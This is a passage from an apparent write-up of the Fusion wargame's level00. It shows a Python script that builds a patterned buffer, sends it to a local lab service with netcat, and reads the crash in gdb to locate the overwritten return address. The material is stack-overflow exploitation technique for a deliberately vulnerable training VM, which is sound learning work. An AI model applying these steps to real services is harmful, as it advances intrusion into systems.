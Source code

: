 \begin{lstlisting}
buf = []
for i in range(0x41,0x4c):
			buf.append(chr(i)*20)
			print ''.join(buf)
\end{lstlisting}

Using the pre-3.0 python on fusion, we take 20 copies of the first
10 letters each, and append them all together. This gives a nice, 
simple buffer we can just copy/paste:
\begin{lstlisting}
fusion@fusion:~/level00\$ python buf.py 
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEEEEEFFFFFFFFFFFFFFFFFFFFGGGGGGGGGGGGGGGGGGGGHHHHHHHHHHHHHHHHHHHHIIIIIIIIIIIIIIIIIIIIJJJJJJJJJJJJJJJJJJJJKKKKKKKKKKKKKKKKKKKK
\end{lstlisting}

So, testing is as simple as sending a properly formatted buffer with netcat,
and examining the core dump \texttt{/core}. If this file exists already,
you should delete it with \texttt{rm} before making another.

\begin{lstlisting}
fusion@fusion:~/level00\$ nc localhost 20000
[debug] buffer is at 0xbffff8f8 :-)
GET AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBCCCCCCCCCCCCCCCCCCCCDDDDDDDDDDDDDDDDDDDDEEEEEEEEEEEEEEEEEEEEFFFFFFFFFFFFFFFFFFFFGGGGGGGGGGGGGGGGGGGGHHHHHHHHHHHHHHHHHHHHIIIIIIIIIIIIIIIIIIIIJJJJJJJJJJJJJJJJJJJJKKKKKKKKKKKKKKKKKKKK HTTP/1.1
fusion@fusion:~/level00\$ sudo gdb -q --core /core
[New LWP 3042]
Core was generated by `/opt/fusion/bin/level00'.
Program terminated with signal 11, Segmentation fault.
#0  0x48484847 in ?? ()
\end{lstlisting}

Excellent! the return pointer happened to be directly on a boundary.
Remembering how the buffer was crafted (increasing order), and the
little-endianness of our intel machine, then we know that
the return address is directly where ``\texttt{GHHH}" is in our buffer.
